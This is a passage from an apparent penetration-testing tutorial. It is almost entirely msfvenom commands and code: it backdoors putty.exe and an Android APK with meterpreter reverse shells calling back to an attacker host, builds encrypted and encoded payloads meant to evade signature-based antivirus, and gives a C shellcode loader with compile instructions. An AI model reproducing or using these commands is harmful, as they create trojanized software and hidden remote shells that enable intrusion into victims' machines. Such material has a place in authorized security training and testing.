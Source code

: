 #### Payload Templates and Backdooring

```bash
# Use a legitimate executable as a template
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -x putty.exe -f exe > malicious_putty.exe

# Backdoor an Android APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -x original.apk -o backdoored.apk
```

#### Advanced Evasion with Encrypted Payloads

For more sophisticated evasion, encrypt payloads to bypass signature-based detection:

```bash
# Generate an encrypted payload with custom key
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.200 LPORT=443 -e x64/shikata_ga_nai -i 10 --encrypt aes256 --encrypt-key r4nD0mK3yString -f exe > encrypted_payload.exe

# Generate an encrypted payload with custom IV and key
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.200 LPORT=443 --encrypt rc4 --encrypt-key s3cr3tk3y --encrypt-iv initv3c -f exe > rc4_encrypted.exe
```

### Custom Shellcode Integration

For truly advanced evasion, integrate custom shellcode with MSFvenom:

```bash
# Generate raw shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.200 LPORT=443 -f raw > shellcode.bin

# Inject shellcode into a C program
cat << 'EOT' > shellcode_loader.c
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
    /* paste shellcode here */
};

int main() {
    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();
    return 0;
}
EOT

# Compile with MinGW (on Kali or Parrot)
x86_64-w64-mingw32-gcc shellcode_loader.c -o custom_loader.exe -lws2_32
```
